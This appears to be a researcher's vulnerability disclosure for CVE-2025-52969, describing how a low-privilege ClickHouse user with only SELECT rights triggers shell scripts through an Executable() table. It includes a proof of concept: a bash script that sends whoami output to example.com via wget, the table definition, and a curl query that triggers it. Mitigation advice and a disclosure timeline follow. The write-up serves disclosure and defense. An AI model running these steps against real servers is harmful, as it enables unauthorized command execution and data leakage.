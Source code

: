 ## ClickHouse Executable Table Abuse by Low Privilege User

#### CVE ID: [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969)
#### Date: 2025-06-19  
#### Author: Seth Kraft  
#### Vendor Homepage: https://clickhouse.com/  
#### Vendor Changelog: https://github.com/ClickHouse/ClickHouse/blob/master/CHANGELOG.md  
#### Software Link: https://github.com/ClickHouse/ClickHouse  
#### Version: 25.7.1.557 (official build)  
#### Tested On: ClickHouse 25.7.1 (default configuration, Ubuntu 24.04)
#### CWE: CWE-250 (Execution with Unnecessary Privileges)  
#### CVSS Base Score: 2.8 (Low)
#### Vector String: `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:C/C:N/I:L/A:N` 
#### Type: Authenticated OS Command Execution via Executable Table
---

## Authorization
**For research and authorized testing only.** Please do not use against systems without permission.

The issue was reviewed by the ClickHouse team and explicitly approved public disclosure of this write-up.

---

## Summary

ClickHouse allows table definitions using the `Executable()` engine, which runs system-level commands on `SELECT`. 

A low-privileged user with only `SELECT` rights can trigger these commands if an `Executable()` table is pre-created by a higher-privileged user. 

This enables authenticated OS command execution resulting in a privilege escalation vector.

---
## Details

ClickHouse’s `Executable` table engine allows tables to be backed by the output of shell scripts. 

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

Each `SELECT` query against this table executes the referenced script on the server.

---

## Proof of Concept

#### 1. **Prepare Bash Script For Abuse**

As a privileged user, create a bash script in `/var/lib/clickhouse/user_scripts/` that will later be abused by a low privileged user.

##### Script Name: `leak.sh`
```bash
#!/bin/bash
wget -q http://example.com?data=$(whoami)
```
> Note: This script will leak the `whoami` result to an external host when executed.

---

#### 2. **Create Executable Table**

Create the following table in the database as a privileged user.  This table will later be abused by the low privileged user.

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

---

#### 3. **Create Low-Privileged User**

```sql
CREATE USER lowpriv IDENTIFIED BY 'p@ssw0rd';
GRANT SELECT ON *.* TO lowpriv;
```

#### 4. Verify Low Privilege User Permissions:

```sql
SHOW GRANTS FOR lowpriv;
```

Expected output:

```text
GRANT SELECT ON *.* TO lowpriv
```
![image](https://github.com/user-attachments/assets/a69ea771-8f46-4723-aad3-b0e9f5888ae7)

---

#### 4. **Trigger Execution as Low-Privileged User**

```bash
curl 'http://localhost:8123/?user=lowpriv&password=p%40ssw0rd&query=SELECT+*+FROM+rce_test;'
```
> Note: URL encoding was used due to a special character in the password field

The external host will receive a request — proving that `lowpriv` was able to trigger OS-level execution via `SELECT` query.
![Screenshot 2025-06-18 234909](https://github.com/user-attachments/assets/b65fc5a5-3bca-40a6-8a41-9c93d2458e8f)

---

### Impact

* **Vulnerability Type:** Execution with Unnecessary Privileges (CWE-250).
* **Who Is Affected:** Environments that use `Executable()` tables and allow `SELECT` access broadly (including BI/reporting users).
* **Impact:** Authenticated users with no command execution or write access can still leverage pre-created command definitions.

---

### Mitigation / Recommendation

* **Restrict access** to any `Executable()` tables via granular `GRANT` controls — avoid granting `SELECT` on these objects to untrusted users.
* **Avoid creating `Executable()` tables** that point to sensitive or impactful scripts unless absolutely necessary.
* **Monitor and audit** access to the `user_scripts` directory and `Executable()` table usage.
* Consider adding a **configuration flag or privilege check** in ClickHouse to restrict execution of `Executable()` tables to specific roles.

Until stricter controls are implemented upstream, the burden of protection falls on administrative hygiene and access control discipline.

---

## Disclosure Timeline

* **2025-06-19:** Researcher reported to ClickHouse via Github Security Report
* **2025-06-19:** ClickHouse dismissed the issue as intended behavior and confirmed that public disclosure was permitted
* **2025-06-19:** Researcher responded with technical rebuttal, but vendor reiterated dismissal
* **2025-06-19:** Researcher initiated public disclosure and requested CVE assignment
* **2025-06-23:** [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969) was assigned with disputed tag
* **2025-06-23:** Researcher notified Clickhouse of CVE-2025-52969 assignment
* **2025-06-23:** ClickHouse confirmed a feature flag ticket was created to improve security.
